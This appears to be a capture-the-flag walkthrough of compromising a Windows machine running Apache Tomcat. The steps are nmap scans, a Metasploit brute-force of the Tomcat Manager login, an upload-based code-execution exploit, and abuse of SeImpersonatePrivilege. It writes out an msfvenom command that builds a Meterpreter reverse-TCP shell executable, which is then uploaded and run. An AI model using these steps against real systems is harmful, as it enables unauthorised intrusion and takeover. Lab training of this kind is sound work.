 We are going to start with the Reconnaissance by scanning the target IP by running nmap however it looks the device is down however nmap is trying to validate if the device is up and running, as we know it is running we can skip "Host Discovery" by using -Pn.

```nmap
sudo nmap -T5 -v -n -Pn <IP>
```

![Image Description](Uploads/Initial%20Scan.png)

![Image Description](Uploads/Second%20Scan.png)

Once we have identified the open ports, we can perform an scan over those ports trying to find more information like versions and potential vulnerabilities.

```nmap
sudo nmap -sC -sV  -p3389,8009,9090 -Pn <IP>
```

![Image Description](Uploads/targeted.png)

Following the instructions "Discover valid credentials to access the Manager area of the Apache Tomcat server", with this information we can use Metasploit to search for anyting related to the versions we found, I search for Apache Tomcat Manager and only for Auxiliary module.

![Image Description](Uploads/search.png)

We found an interesting module for Tomcat Application Manager Login Utility. "This module simply attempts to login to a Tomcat Application Manager instance using a specific user/pass.", once we configure all the fields, we found a username and password.

![Image Description](Uploads/userpass.png)

Now we have credentials, we need to search for a proper module to exploit it and obtain access to the server, I used similar search but changing the "type" to "exploit" and I found an interesting one to Upload Code Execution, I set all the fields and execute the module. After some seconds we got initial access and we can visualize the first flag.

![Image Description](Uploads/exploit.png)

![Image Description](Uploads/payload.png)

![Image Description](Uploads/flag.png)

I put the meterpreter session in the background on session 1, I tried to use local_exploit_suggester module however the payload I found did not work to escalate my privilege so I decided to enumerate the system manually.

![Image Description](Uploads/background.png)

![Image Description](Uploads/suggester.png)

User is not part of the "Administrators" group however there is a really interesting privilege assigned to the user, **SeImpersonatePrivilege** is a Windows privilege that grants a user or process the ability to impersonate the security context of another user or account, we can abuse of this privilege to impersonate SYSTEM user.

![Image Description](Uploads/enum.png)

![Image Description](Uploads/impersonate.png)

In order to properly abuse to this privilege, I need to be able to obtain a meterpreter session with **windows/meterpreter/reverse_tcp** to execute **getsystem**. So, I decided to create a custom payload with msfvenom (this should have a different IP from our initial shell):

```msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<> LPORT=<> -f exe -o shell.exe
```

![Image Description](Uploads/msfvenom.png)

I created a folder to upload **shell.exe** file, once uploaded, I opened a new Meterpreter terminal and I used **multi/handler**. I configured same IP and PORT from msfvenom and click run to start the listener. In my other sessions, I executed .\shell.exe

![Image Description](Uploads/upload_shell.png)

![Image Description](Uploads/meterpreter_shell.png)
